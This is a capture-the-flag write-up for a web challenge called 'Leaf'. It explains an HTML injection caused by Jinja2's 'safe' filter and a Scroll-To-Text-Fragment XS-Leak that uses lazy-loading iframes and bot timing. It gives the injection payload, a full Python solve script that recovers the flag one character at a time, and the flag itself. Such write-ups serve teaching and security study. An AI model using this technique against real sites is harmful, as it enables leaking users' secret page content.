 ```yaml
---
title: Leaf
author: Chara
description: I always think leaf ~= tea. Please allow remote to have some time to boot the browser.
categories:
    - web
year: 2025
challengefiles: leaf.zip
---
```


# TL;DR<a id="TL;DR"></a>
    **- Challenge Setup:** Small website reflecting user input via URL query parameter
    **- Key Discoveries:** Due to **Jinja2** `safe` attribute you basically have **HTML** injection
    **- Vulnerability:** The website is vulnerable to a special form of **XSLeak**: **STTF** - **Scroll-To-Text-Fragment**
    **- Exploitation:** By injecting lazy loading iframes, you can measure the time it takes for the bot to load the website

# 1. Introduction<a id="introduction"></a>
The challenge setup is very minimalistic. You only have the index page reflecting user input via the `leaf` URL parameter, but in a very special way:

![landing-page](ctf/writeups/smileyctf/leaf/landing_page.png "landing-page")

For testing purposes, you can also create a `flag` cookie, which is also reflected by the website. As you can see, the **JavaScript** is transforming every text in the **HTML** tags with the `leaf` class into a text consisting of `span` tags, separating each character from each other. But it doesn't affect the visuals of the text. Moreover, there is a `/bot` endpoint on which you can send your `leaf` to a bot that will visit it.

# 2. Reconnaissance<a id="reconnaissance"></a>
Having a closer look at the source code of the challenge reveals `<div class="leaf">{{ leaves | safe}}</div>`. The `safe` keyword tells the underlying templating engine, **Jinja2**, that this content is safe and there is no need to escape it. This is very interesting, as we control everything that goes into this `leaf` tag. The applied **CSP** is very strict with `default-src 'none'; script-src 'nonce-{nonce}'; style-src 'nonce-{nonce}'; base-uri 'none'; frame-ancestors 'none';`. We can't even frame the website and **CSS** and **JavaScript** are only permitted with the correct nonce, which is generated safely. So basically, this challenge is all about putting the correct payload into the `leaf` URL parameter. In a comment, there is a hint that the flag starts with `d0nt`.

# 3. Vulnerability Description<a id="vulnerability description"></a>
As already mentioned, due to the `safe` keyword, we have **HTML** injection via the `leaf` URL parameter. But we can't execute any **JavaScript**, so this has to be some different form of XSS.
This is where we get to **XSLeak**, a special form of a side channel with which you can infer information by observing small information the website is leaking, like status codes, errors, timing, etc. There is a great [resource](https://xsleaks.dev/) for these kinds of attacks.
The `span` elements strongly hint that this is all about [STTF XSLeak](https://xsleaks.dev/docs/attacks/experiments/scroll-to-text-fragment/). Usually [Scroll-To-Text-Fragment](https://github.com/WICG/scroll-to-text-fragment) is used to automatically scroll to some specific part of a website matching the given URL fragment. This is, for example, used by search engines, linking directly to the part of the resource interesting to the user. The browser will scroll to this part after the website finishes loading. The generic syntax for **STTF** is `:~:text=[prefix-,]textStart[,textEnd][,-suffix]`. So, applied to our web challenge, you can do something like `/?leaf=testleaf#:~:text=testleaf`. In most of the challenges which are about **STTF** vulnerabilities, the website applies these `span` elements to the content, so it is possible to brute force the flag char by char. Without this modification, you could only match whole words and not parts of the text, making a char by char brute force attack impossible.
Now this is where it gets interesting. We can make the bot scroll around on the website. Either to a part of the flag or to other content on the page. So we need to find a way to distinguish correct characters from wrong ones. This is where `lazy loading iframes` come into play. The [lazy loading](https://developer.mozilla.org/de/docs/Web/Performance/Guides/Lazy_loading) attribute makes elements only load their source when they get near the viewport of your browser. Unfortunately, we can't specify a source for the iframes because of the **CSP** having `default-src 'none'`. However, iframes still try to load the source specified by their `src` attribute, which will eventually be blocked by the **CSP**. Having a lot of these iframes will make the website lag for a short time. Thanks to the `implicitly_wait` in the source code of the bot, we can just measure the time it takes for the bot to respond to our request after visiting our `leaf`.

# 4. Exploitation<a id="exploitation"></a>
So, at first, we need to make sure that we can inject arbitrary **HTML** into the website. The **JavaScript** applying the `span` tags destroys our payload, so we need to escape out of the `leaf` element by starting with a closing `</div>`. After that, we need to make sure the injected iframes are not right away in the viewport. We can just do this with some `</br>` tags, moving the iframes to a lower part of the website. At the bottom of the page, we just spam iframes as much as we can. We just have to be careful not to trigger a `414 URI Too Long`.
Moreover, we need to make the iframes small enough by applying `width=0 height=0` so all of them are present in the viewport and thus lazy load their source when being scrolled to.
But there is still one problem: **STTF** is case insensitive, which means you get the same behaviour with `/?leaf=testleaf#:~:text=testleaf` as with `/?leaf=testleaf#:~:text=testLEAF`. For this reason, we just assume there are only lowercase characters in the flag.
Between the iframes, we place a special string `FLAG_NOT_FOUND` which is scrolled to when the guessed character is wrong. So, for now, our payload is as follows:

```sql
</div>A</br>A</br>...</br>A<iframe src=x loading=lazy width=0 height=0></iframe>...<iframe src=x loading=lazy width=0 height=0></iframe>FLAG_NOT_FOUND<iframe src=x loading=lazy width=0 height=0></iframe>...<iframe src=x loading=lazy width=0 height=0></iframe>#:~:text=d0nta&text=FLAG_NOT_FOUND
```

We can enhance this payload even more. Instead of going through char by char, we can group the characters and just do a binary search. One of the characteristics of **STTF** is that only the leftmost successfully matched directive will be scrolled to. So we can add even more `text` directives to our query, resulting in something like:

```sql
#:~:text=d0nta&text=d0ntb&text=d0ntc...text=d0nt9&text=FLAG_NOT_FOUND
```

Now that we have our payload we just need to measure the time it takes for the bot to respond to our request with the first half of the characters and for the second half. The half with the lower response time is the one containing the correct next flag character, so we keep going like this recursively until only one character is left. Then just repeat this process.
You just need to be careful as the flag format `.;,;.{` and `}` were stripped out of the flag, we can't wait until we hit `}`. As a termination condition, we can just calculate the difference between the two response times. If the difference is not big enough or both response times exceed a certain time limit, we have already got the full flag.

# 5. Mitigation<a id="mitigation"></a>
In general, preventing XSLeaks is a pretty tough challenge. But in the first place this exploit could have been completely prevented by not applying the **Jinja2** `safe` keyword to untrusted input.

# 6. Solve script<a id="solve script"></a>
```python
# .;,;.{d0ntul0v3th1sf34tur3}

import requests, time, base64
from statistics import mean
import string
import urllib3

BASE_URL = "http://localhost:8800"
FLAG = 'test'
BASE_URL = "https://web-leaf-chx8mbzz.smiley.cat"
FLAG = 'd0nt'

BOT_ENDPOINT = f"{BASE_URL}/bot"

FLAG_CHARS = string.ascii_lowercase +  string.digits + '{}_.-'
TRIES = 2
TIMEOUT = 5

def generate_br_string(length):
    return '</br>'.join('A' for _ in range(length))

def measure_latency(payload):
    b64 = base64.b64encode(payload.encode()).decode()
    params = {'leaf': b64}
    times = []
    for _ in range(TRIES):
        try:
            t0 = time.time()
            r = requests.get(BOT_ENDPOINT, params=params, timeout=TIMEOUT, allow_redirects=False)
            t1 = time.time()
            dif = t1 - t0
            times.append(dif)
        except (TimeoutError, urllib3.exceptions.ReadTimeoutError, requests.exceptions.ReadTimeout):
            times.append(TIMEOUT)
    return mean(times)

def generate_payload(candidates):
    global FLAG

    lazy_iframe = """<iframe src=x loading=lazy width=0 height=0></iframe>"""
    candidates_string = "FLAG_NOT_FOUND"
    frag = "#:~:text=" + "&text=".join(f"{FLAG}{c}" for c in candidates) + "&text=FLAG_NOT_FOUND"
    num_br = 200
    iframe_num = 400
    payload = '</div>' + generate_br_string(num_br) + (lazy_iframe * iframe_num) + candidates_string + (lazy_iframe * iframe_num) + frag
    mean_time = measure_latency(payload)
    print(f"\t\t[-] Mean time: {mean_time:.3f}s")
    return mean_time

last_min_mean_time = 0
while last_min_mean_time < 2.9:
    print(f"[*] Current flag: {FLAG}")
    search = FLAG_CHARS
    while len(search) > 1:
        first = search[::2]
        second = search[1::2]
        print(f"\t\t[-] Trying first half  ({len(first)}): {first}")
        print(f"\t\t[-] Trying second half ({len(second)}): {second}")

        mean_time_first = generate_payload(list(first))
        mean_time_second = generate_payload(list(second))

        if mean_time_first < mean_time_second:
            search = first
            print("\t[1] Found character in first half")
        else:
            search = second
            print("\t[2] Found character in second half")
        last_min_mean_time = min(mean_time_first, mean_time_second)

    FLAG += search[0]

print(f"[*] Final flag: .;,;.{{{FLAG}}}")

```

# 7. Flag<a id="flag"></a>
.;,;.{d0ntul0v3th1sf34tur3}
